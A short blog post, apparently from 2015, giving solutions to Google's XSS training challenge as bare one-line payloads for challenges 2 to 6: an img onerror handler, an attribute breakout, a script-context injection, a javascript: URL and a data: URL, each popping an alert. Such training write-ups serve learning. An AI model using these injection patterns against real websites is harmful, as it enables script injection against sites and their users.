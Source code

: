 ```yaml
---
layout:     post
title:      "Xss challenge solution!!"
subtitle:   "Google xss challenge Solution!"
date:       2015-10-06 16:47:00
author:     "Heeraj"
header-img: "img/post-bg-02.jpg"
---
```

<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>Google XSS challenge solution!</p>

<p>Challenge 2</p>

<blockquote>"ptr=&#x3C;img src=&#x22;hrj&#x22; onerror=&#x22;alert(&#x22;xss&#x22;)&#x3E;"</blockquote>

<p>Challenge 3</p>

<blockquote>&#x27; onerror=&#x27;alert(&#x22;xss&#x22;)&#x27;&#x3E;</blockquote>

<p>Challenge 4</p>

<blockquote>');alert('xss</blockquote>

<p>Challenge 5</p>

<blockquote>javascript%3Aalert(%22xss%22)</blockquote>

<p>Challenge 6</p>

<blockquote>#data:text/plain,alert('xss')</p>

<p>Stay tuned!<br> Untill we come with our another blog!</p>





